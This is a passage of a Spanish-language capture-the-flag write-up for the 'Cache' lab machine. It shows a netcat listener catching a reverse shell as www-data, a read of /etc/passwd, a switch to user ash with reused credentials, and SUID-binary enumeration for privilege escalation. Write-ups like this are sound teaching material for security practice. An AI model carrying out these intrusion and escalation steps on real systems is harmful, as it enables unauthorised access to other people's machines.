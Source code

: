 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.188] 54140
bash: cannot set terminal process group (1587): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ whoami
whoami
www-data
www-data@cache:/var/www/hms.htb/public_html/interface/main$
```

Ya nos encontramos dentro de la máquina y para trabajar mejor, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Si vemos los usuarios del sistema, vemos que efectivamente se encontraba **ash**, por lo que podriamos tratar de migrar a dicho usuario con las credenciales que tenemos.

```bash
www-data@cache:/var/www/hms.htb/public_html/interface/main$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
ash:x:1000:1000:ash:/home/ash:/bin/bash
luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
www-data@cache:/var/www/hms.htb/public_html/interface/main$
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su ash
Password: 
ash@cache:/var/www/hms.htb/public_html/interface/main$ whoami
ash
ash@cache:/var/www/hms.htb/public_html/interface/main$ 
```

Ya somos el usuario **ash** y podemos visualizar la flag (user.txt). Ahora vamos a enumerar un poco el sistema para ver de que forma nos podemos convertir en root.

```bash
ash@cache:/$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash)
ash@cache:/$ sudo -l
[sudo] password for ash: 
ash@cache:/$
ash@cache:/$ find \-perm -4000 2>/dev/null                                                                                       
./bin/su                                                                                                                         
./bin/fusermount                                                                                                                 
./bin/mount                                                                                                                      
./bin/ping
./bin/umount
./snap/core/9436/bin/mount
./snap/core/9436/bin/ping
./snap/core/9436/bin/ping6
./snap/core/9436/bin/su
./snap/core/9436/bin/umount
./snap/core/9436/usr/bin/chfn
./snap/core/9436/usr/bin/chsh
./snap/core/9436/usr/bin/gpasswd 
./snap/core/9436/usr/bin/newgrp
./snap/core/9436/usr/bin/passwd
./snap/core/9436/usr/bin/sudo
./snap/core/9436/usr/lib/dbus-1.0/dbus-daemon-launch-helper
./snap/core/9436/usr/lib/openssh/ssh-keysign
./snap/core/9436/usr/lib/snapd/snap-confine
./snap/core/9436/usr/sbin/pppd
./snap/core/9993/bin/mount
./snap/core/9993/bin/ping
./snap/core/9993/bin/ping6
```
